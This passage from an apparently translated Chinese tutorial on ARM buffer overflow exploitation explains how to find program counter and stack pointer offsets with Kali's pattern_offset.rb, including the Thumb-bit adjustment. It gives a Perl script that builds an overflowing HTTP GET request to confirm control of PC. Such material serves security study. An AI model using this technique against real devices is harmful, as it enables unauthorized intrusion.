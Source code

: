 图 4:程序崩溃时的状态。

当程序崩溃时，我们可以通过提取$PC 中存储的值和$SP 中的内容来确定偏移量。

需要注意的是，在 ARM 架构中，程序可以从 ARM (4 字节)转换为 Thumb (2 字节)，反之亦然。它的$PC 计数器最低有效位将始终是一个偶数(0)。假设我们正在执行一个典型的缓冲区溢出，大量的“A”被转换为 0x41，$PC 将被反映为 0x41414140 (THUMB 标志设置为 0x1)，而不是 0x41414141。因此，在这种情况下，请注意 THUMB 标志被设置，因此，当使用 Kali 中的“pattern_offset.rb”工具时，我们必须向$PC 添加 1。

![](img/94212de308fafe8aee11fca2d8e9cbe5.png)

图 5:在 kali 中使用‘pattern _ offset . Rb’分别确定$PC 和$SP 的偏移量。

![](img/ecff098a76fb68827dbc357ff8363794.png)

图 6:控制$PC 和$SP 中内容的状态

为了验证发现的结果，我修改了漏洞脚本，如下所示:

```
#!/usr/bin/perl
$| = 1;$buf = “A” x 347;
$buf .= “B” x 4;
$buf .= “A” x 16;
$buf .= “D” x 50;
$uri = $buf;# URL Encode
$uri =~ s/([^A-Za-z0–9\/])/sprintf(“%%%02X”, ord($1))/seg;
$request = “GET /${uri} HTTP/1.0\n\n”;
print $request;
```

![](img/b7bc4118cc826d549295b9642c7a9ea6.png)
